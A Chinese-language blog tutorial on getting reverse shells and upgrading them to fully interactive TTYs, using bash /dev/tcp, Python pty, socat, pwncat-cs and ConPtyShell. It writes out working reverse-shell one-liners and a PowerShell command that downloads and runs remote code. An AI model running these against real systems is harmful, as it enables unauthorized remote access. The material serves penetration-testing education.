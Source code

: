 ```yaml
---
layout: post
title: Get a Fully Interactive Reverse Shell
category: Linux
tags: [reverse shell, tty, pty, socat]
---
```


## Reverse Shell (semi-interactive shell)

一般反弹 shell 的命令：

```console
[root@centos ~]# /bin/bash -i >& /dev/tcp/192.168.10.11/4444 0>&1
```

接收到半交互式的 shell：

```console
kali@kali:~$  nc -lvnp 4444
Listening on 0.0.0.0 4444
[root@centos ~]# tty
tty
not a tty

[root@centos ~]#
```

当前获取到的 reverse shell 还存在诸多限制，如：无法使用 top 这类命令，ctrl+c 会中断整个 reverse shell 等。

---

Reverse Shell Cheat Sheet：

- https://www.revshells.com/
- https://alamot.github.io/reverse_shells/
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

## Upgrade Reverse Shell

TTY 是英文 Teletype 的缩写，译为电传打字机，简称电传。现在通常泛指类 Unix 操作系统中的虚拟控制台。

PTY（Pseudo-TTY，伪终端），由 pts (pseudo-terminal slave) 与 ptmx (pseudo-terminal master) 实现。

### Spawn a TTY shell

在 reverse shell 中，使用 python 的 pty 模块，将当前 non-TTY shell 升级成一个 TTY shell：

```console
[root@centos ~]# tty
tty
not a tty

[root@centos ~]# python -c 'import pty;pty.spawn("/bin/bash")';
python -c 'import pty;pty.spawn("/bin/bash")';
[root@centos ~]# tty
tty
/dev/pts/8
```

> 注：无论 python2 和 python3 都可以使用该命令。

如果目标主机中，没有安装 python 环境。也可以使用 script 命令获取到一个 TTY shell：

```console
[root@centos ~]# /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
[root@centos ~]# tty
tty
/dev/pts/9
```

使用 expect 命令也能获取到 TTY shell，但该命令在大多 Linux 主机上需要额外安装：

```console
[root@centos ~]# expect -c 'spawn bash;interact'
expect -c 'spawn bash;interact'
spawn bash
[root@centos ~]# tty
tty
/dev/pts/11
```

现在已经解决了因为没有 TTY 而导致一些命令不能使用的问题了。

但在使用时，依然存在一些 “问题”，如：会将用户输入的字符串进行回显、不能用 tab 补齐命令、按 ctrl+c 会直接退出 reverse shell 等。

### Upgrade to Full Interactive Shell

先按 ctrl+z 将 reverse shell 发送到后台，设置当前的 shell 通过 reverse shell 来发送控制字符和其他原始输入：

```console
[root@centos ~]# ^Z
[1]+  Stopped                 nc -lvnp 4444
kali@kali:~$ stty size
46 77
kali@kali:~$ stty raw -echo
```

再输入命令 fg，将 reverse shell 返回到前台，接着在目标机器上进行以下设置：

```console
kali@kali:~$ jobs -l
[1]+ 1161146 Stopped                 nc -lvnp 4444
kali@kali:~$ fg 1

[root@centos ~]# export SHELL=bash
[root@centos ~]# export TERM=xterm-256color
[root@centos ~]# stty rows 46 columns 77
[root@centos ~]# reset
```

此时的终端，就和 SSH 连接上的一样了。无论是执行或者中断命令，还是在 vim 中都不会有任何问题了。

## Using socat

使用 socat 可以直接弹回来一个带有 TTY 的完全交互式 shell。

二进制文件下载地址：[https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

---

开启监听：

```console
kali@kali:~$ socat file:`tty`,raw,echo=0 tcp-listen:4444

[root@centos ~]# tty
/dev/pts/10
```

执行 reverse shell 命令：

```console
[root@centos ~]# socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.10.11:4444
```

## Using pwncat-cs

使用 [pwncat-cs](https://github.com/calebstewart/pwncat) 可以自动处理接收到的反弹 shell，尝试生成一个伪终端（pty）以进行完整的交互式会话。

```console
kali@kali:~$ pipx install pwncat-cs
kali@kali:~$ pwncat-cs --download-plugins
kali@kali:~$ pwncat-cs -lp 1234
[13:27:35] Welcome to pwncat 🐈!                                                                    __main__.py:164
bound to 0.0.0.0:1234 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[13:28:35] received connection from xx.xx.xx.xx:51758                                                     bind.py:84
[13:28:36] xx.xx.xx.xx:51758: registered new host w/ db                                               manager.py:957
(local) pwncat$ back
(remote) [root@centos ~]# tty
/dev/pts/6
(remote) [root@centos ~]# Ctrl+D
(local) pwncat$
```

## Using ConPtyShell

如果目标主机是 Windows 操作系统，可以使用 [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) 快速获得一个完全交互式 Shell。

开启监听：

```console
kali@kali:~$ stty raw -echo; (stty size; cat) | nc -lvnp 1234
```

执行 Reverse Shell 命令：

```console
PS C:\> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 172.25.68.38 1234

CreatePseudoConsole function found! Spawning a fully interactive shell
```

之后 Kali 上会收到一个完整的 Shell：

```
Windows PowerShell
版权所有（C） Microsoft Corporation。保留所有权利。

安装最新的 PowerShell，了解新功能和改进！https://aka.ms/PSWindows

PS C:\> whoami
...
```



## References

- Unix 终端系统（TTY）是如何工作的 | Shall We Code?  
  [https://waynerv.com/posts/how-tty-system-works/](https://waynerv.com/posts/how-tty-system-works/)
- Upgrade a linux reverse shell to a fully usable TTY shell  
  [https://zweilosec.github.io/posts/upgrade-linux-shell/](https://zweilosec.github.io/posts/upgrade-linux-shell/)
- Full TTYs - HackTricks  
  [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
- How to Get a Fully Interactive Reverse Shell  
  [https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1](https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1)
